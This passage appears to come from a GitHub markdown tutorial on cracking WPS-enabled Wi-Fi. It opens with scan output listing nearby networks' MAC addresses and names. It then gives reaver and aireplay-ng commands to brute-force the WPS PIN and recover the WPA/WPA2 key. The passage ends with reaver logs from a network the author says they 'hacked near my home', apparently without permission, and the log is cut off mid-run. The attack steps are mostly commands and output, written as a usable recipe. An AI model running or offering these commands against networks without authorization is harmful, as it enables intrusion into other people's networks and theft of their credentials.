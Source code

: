     44:95:3B:9E:26:10    1  -70  1.0  No   RalinkTe  RH-2.4G-9E2610
    18:D6:C7:82:EA:46   12  -82  2.0  No   RalinkTe  DAS-TP-LINK_EA46
    44:95:3B:88:24:70    1  -72  1.0  No   RalinkTe  RH-2.4G-882470
    5E:3A:3D:A3:26:B7    3  -72  2.0  No             ZTE_2.4G_XdeD6e
    44:95:3B:94:8B:B0   13  -70  1.0  No   RalinkTe  RH-2.4G-948BB0
    BA:DD:71:A4:BB:6A    9  -74  2.0  No             Aasra pg 4th floor
    3C:64:CF:3B:44:3E    5  -68  2.0  No   AtherosC  McDeNviUber
    8C:A3:99:46:0D:AA   11  -84  2.0  No   Broadcom  JioFiber-gryff
    BA:DD:71:E6:A6:BC    8  -74  2.0  No             ZTE_2.4G_3DeKcF
    96:E3:EE:24:6C:F8    4  -78  2.0  No             ZTE_2.4G_wzHhQ9
    44:95:3B:BE:DE:B0    9  -78  1.0  No   RalinkTe  RH-2.4G-BEDEB0
    ```

- Hence, now we know we have a WPS enabled network, we can use the `reaver` tool to brute-force the WPS PIN and recover the WPA/WPA2 key.

>[!CAUTION]
> It will not work, and fail in this scenario cause if you LCK (Lock) is set to `Yes`, which means the WPS feature is locked due to too many failed attempts or by default.<br/><br/>
> The attack will also not work if the Router has AP Rate Limiting (ARL) enabled, which limits the number of authentication attempts per second. It may but will take a long time to brute-force the WPS PIN.

- Once, we have the info about the WPS enabled network, we can use the `reaver` tool to brute-force the WPS PIN and recover the WPA/WPA2 key along side `aireplay-ng` to associate with the target network.]

- So, first run the command:

    ```bash
    root@kali:~# reaver --bssid WIFI_MAC --channel <channel_number> --interface wlan0 -vvv --no-associate
    ```

    And, than run the command:

    ```bash
    root@kali:~# aireplay-ng --fakeauth 30 -a WIFI_MAC -h WIRELESS_ADAPTER_MAC wlan0
    ```

- And, this should start trying all possible combinations of the WPS PIN, and once it finds the correct one, it will display the WPA/WPA2 key.

- Here's a wifi that I hacked near my home, using the above method:

    <details>
        <summary>reaver logs</summary>

    ```bash
    root@kali:~# reaver --bssid B4:3D:08:2D:91:41 --channel 1 --interface wlan0 -vvv --no-associate

    Reaver v1.6.6 WiFi Protected Setup Attack Tool
    Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

    [+] Switching wlan0 to channel 1
    [+] Waiting for beacon from B4:3D:08:2D:91:41
    [+] Received beacon from B4:3D:08:2D:91:41
    [+] Vendor: RealtekS
    WPS: A new PIN configured (timeout=0)
    WPS: UUID - hexdump(len=16): [NULL]
    WPS: PIN - hexdump_ascii(len=8):
        31 32 33 34 35 36 37 30                           12345670        
    WPS: Selected registrar information changed
    WPS: Internal Registrar selected (pbc=0)
    WPS: sel_reg_union
    WPS: set_ie
    WPS: cb_set_sel_reg
    WPS: Enter wps_cg_set_sel_reg
    WPS: Leave wps_cg_set_sel_reg early